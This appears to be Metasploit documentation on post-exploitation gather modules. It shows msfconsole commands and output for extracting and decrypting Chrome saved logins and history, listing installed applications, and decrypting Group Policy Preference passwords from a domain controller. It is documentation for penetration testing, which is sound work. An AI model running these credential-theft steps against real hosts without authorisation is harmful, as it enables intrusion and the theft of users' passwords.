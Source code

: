 ## Post Modules

Metasploit's post gather modules are useful after a Metasploit session has opened. This guide focuses on Post modules for gathering additional information from a host after a Metasploit session has opened.

Metasploit post modules replace old Meterpreter scripts, which are no longer maintained or accepted by the framework team.

You can search for post gather modules within msfconsole:

```
msf6 > search type:post platform:windows name:gather

Matching Modules
================

   #    Name                                                       Disclosure Date  Rank       Check  Description
   -    ----                                                       ---------------  ----       -----  -----------
   0    post/windows/gather/ad_to_sqlite                                            normal     No     AD Computer, Group and Recursive User Membership to Local SQLite DB
   1    post/windows/gather/credentials/aim                                         normal     No     Aim credential gatherer
   ... etc ..
```

### Usage

There are two ways to launch a Post module, both require an existing session.

Within a msf prompt you can use the `use` comand followed by the `run` command to execute the module against the required session. For instance to extract credentials from Chrome on the most recently opened Metasploit session:

```
msf6 > use post/windows/gather/enum_chrome
msf6 post(windows/gather/enum_chrome) > run session=-1 verbose=true

[*] Impersonating token: 7192
[*] Running as user 'DESKTOP-N3MAG5R\basic_user'...
[*] Extracting data for user 'basic_user'...
[+] Downloaded Web Data to '/Users/user/.msf4/loot/20220422122125_default_192.168.123.151_chrome.raw.WebD_560928.txt'
[-] Cookies not found
[+] Downloaded History to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Histo_861946.txt'
[+] Downloaded Login Data to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Login_785667.txt'
[+] Downloaded Bookmarks to '/Users/user/.msf4/loot/20220422122127_default_192.168.123.151_chrome.raw.Bookm_612993.txt'
[+] Downloaded Preferences to '/Users/user/.msf4/loot/20220422122127_default_192.168.123.151_chrome.raw.Prefe_893631.txt'
[*] Found password encrypted with masterkey
[+] Found masterkey!
[+] Decrypted data: url:http://192.168.123.6/ helloworld:157746edfe6b4d369d7e656c00eeb5c8
[+] Decrypted data: url:https://www.example.com/ my_username:my_password_123
[+] Decrypted data saved in: /Users/user/.msf4/loot/20220422122129_default_192.168.123.151_chrome.decrypted_981698.txt
[*] Post module execution completed
msf6 post(windows/gather/enum_chrome) >
```

Or within a Meterpreter prompt use the `run` command, which will automatically set the module's session value:

```
msf6 > sessions --interact -1
[*] Starting interaction with 5...

meterpreter > run post/windows/gather/enum_applications

[*] Enumerating applications installed on DESKTOP-N3MAG5R

Installed Applications
======================

 Name                                                                Version
 ----                                                                -------
 7-Zip 21.07 (x64)                                                   21.07
 Application Verifier x64 External Package                           10.1.19041.685
 ClickOnce Bootstrapper Package for Microsoft .NET Framework         4.8.04162
 DiagnosticsHub_CollectionService                                    16.1.28901
 Docker Desktop                                                      2.2.0.4
 ... etc ..
```

## Useful modules

### Windows GPP Credentials

This module enumerates the victim machine's domain controller and connects to it via SMB. It then looks for Group Policy Preference XML files containing local user accounts and passwords and decrypts them using Microsoft's public AES key. Cached Group Policy files may be found on end-user devices if the group policy object is deleted rather than unlinked

```
use post/windows/gather/credentials/gpp
run session=-1
```
